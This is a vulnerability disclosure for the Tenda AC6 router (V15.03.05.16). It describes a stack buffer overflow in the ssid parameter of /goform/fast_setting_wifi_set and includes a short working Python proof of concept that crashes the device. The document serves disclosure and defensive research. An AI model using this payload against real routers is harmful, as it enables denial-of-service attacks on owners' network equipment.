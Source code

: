# Tenda Router AC6 Vulnerability
This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC6_V15.03.05.16. (The latest version is [AC6_V15.03.05.19](https://www.tenda.com.cn/download/detail-2681.html))
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/AC6/205_1/vlun2.png)

So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a Deny of Service Attack.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
